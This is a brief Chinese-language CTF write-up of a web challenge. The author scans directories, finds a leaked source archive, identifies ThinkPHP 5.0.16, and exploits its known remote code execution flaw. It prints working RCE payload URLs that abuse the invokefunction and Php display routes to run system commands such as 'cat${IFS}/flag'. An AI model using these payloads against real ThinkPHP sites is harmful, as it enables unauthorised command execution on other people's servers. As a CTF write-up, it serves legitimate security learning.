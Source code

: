 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden

![web-1.1](..\img\web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](\img\web-1.2.png)

发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](\img\web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](\img\web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,

尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](\img\web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](\img\web-1.6.png)

![web-1.7](\img\web-1.7.png)
